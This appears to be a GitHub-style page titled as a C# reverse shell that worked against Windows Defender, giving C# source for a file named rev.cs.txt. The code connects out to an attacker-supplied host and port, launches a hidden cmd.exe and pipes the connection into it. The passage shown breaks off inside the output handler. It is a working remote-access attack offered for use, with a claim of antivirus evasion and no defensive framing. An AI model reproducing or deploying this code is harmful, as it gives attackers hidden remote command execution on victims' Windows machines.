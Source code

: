 
## C# Reverse shell: worked against defender (31/7/2022)
### Step #1: create a `rev.cs.txt` file with the below code
```C#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
```